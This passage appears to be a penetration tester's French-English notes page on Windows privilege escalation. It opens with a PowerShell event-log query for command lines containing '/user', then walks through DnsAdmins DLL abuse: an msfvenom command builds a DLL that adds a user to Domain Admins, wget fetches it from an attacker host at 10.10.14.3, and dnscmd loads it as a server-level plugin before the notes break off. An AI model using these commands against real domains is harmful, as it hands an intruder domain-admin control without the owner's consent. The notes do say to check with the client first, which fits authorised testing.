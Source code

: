 ```powershell
Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }} -Credential $creds
```

Rechercher les logs powershell egalement (id 4104)
https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_logging_windows?view=powershell-7.5&viewFallbackFrom=powershell-7.1


---
# DnsAdmin

> [!TIP]
> Permet de lire les infos DNS sur le réseau.
> Service DNS lancé en tant que SYSTEM.
> - When a member of the `DnsAdmins` group runs the `dnscmd` command, the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll` registry key is populated

- [ ] [[#1. DLL Hijacking (Vérifier avec le client avant pour les répercutions)]]
- [ ] [[#2. WPAD Record]]

## 1. DLL Hijacking (Vérifier avec le client avant pour les répercutions)

### DNSCMD

#### 1. Créer charge (adduser to domain admins)

```shell
msfvenom -p windows/x64/exec cmd='net group "domain admins" <user> /add /domain' -f dll -o adduser.dll
```

#### 2. transférer la charge

```powershell
wget "http://10.10.14.3:7777/adduser.dll" -outfile "adduser.dll"
```

#### 3.  Charger la dll (le full path de la dll doit être indiqué)

```cmd
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
```

#### 4. Identifier le SID de l'utilisateur

```cmd
wmic useraccount where name="netadm" get sid
```

#### 5. Vérifier les permissions sur le service DNS
